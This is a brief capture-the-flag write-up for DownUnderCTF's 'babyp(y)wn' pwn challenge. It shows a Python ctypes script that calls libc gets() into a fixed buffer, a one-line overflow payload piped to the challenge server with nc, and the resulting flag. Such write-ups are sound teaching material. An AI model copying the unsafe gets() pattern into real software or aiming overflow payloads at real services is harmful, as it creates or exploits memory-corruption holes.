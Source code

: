 # babyp(y)wn

CTF Event: DownUnderCTF
Category: Pwn
Difficulty: Easy
Platform: CTFtime
Status: Rooted/Finished
Tags: buffer-overflow

## Description

> Python is memory safe, right?
> 

## Steps

in this challenge, we are provided with a python script that imports libc’s lib.so.6 and sets buffers to 512 then calls the gets function and sets the value to buf1

```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

the vulnerability here is that the gets function takes input until it receives a line terminator with that we can overflow the input into buf2 and pass the check at line 8 to get the flag

## Solution

```bash
python -c "print('a'*512+'DUCTF')" | nc 2022.ductf.dev 30021
```

## Flag

`DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}`